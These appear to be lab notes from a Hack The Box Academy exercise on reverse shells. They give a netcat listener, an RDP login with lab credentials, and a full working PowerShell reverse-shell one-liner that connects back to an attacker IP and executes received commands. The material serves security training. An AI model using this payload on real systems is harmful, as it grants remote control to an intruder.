

## Reverse Shells

1. netcat listen on kali with port `443`.

```
nc -lvnp 443
```

output:
```
listening on [any] 443 ...
```

2. rdp into the target machine:

```
xfreerdp /u:htb-student /p:'HTB_@cademy_stdnt!' /v:$target_ip
```

output:
<p align="center">
  
</p>

3. create a reverse shell using this powershell command.

run this on cmd:
```
C:\Windows\system32> powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.15.176',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

get rid of the `powershell -nop -c " ... "` wrappers if you want to run it in **powershell** instead of cmd:
```
PS C:\Windows\system32> $client = New-Object System.Net.Sockets.TCPClient('10.10.15.176',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

`TCPClient('10.10.15.176',443)` - attacker ip and port number.

4. get the hostname of the target box.

```
connect to [10.10.15.176] from (UNKNOWN) [10.129.201.51] 49874
PS C:\Windows\system32> whoami
```